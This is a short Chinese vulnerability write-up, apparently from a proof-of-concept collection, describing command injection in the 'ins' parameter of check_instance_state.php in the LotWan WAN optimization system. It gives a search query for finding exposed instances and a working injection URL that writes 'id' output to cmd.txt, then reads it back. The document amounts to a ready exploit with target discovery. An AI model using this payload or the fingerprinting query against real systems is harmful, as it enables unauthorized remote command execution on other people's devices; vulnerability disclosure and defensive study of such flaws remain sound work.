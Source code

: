 # 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123637053.png)

存在漏洞的文件为

```php
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 **/acc/cmd.txt**

![img](../../../.vuepress/public/img/1635943074087-b483f989-38e9-43fd-8e94-6de93605d4a7.png)



若有收获，就点个赞吧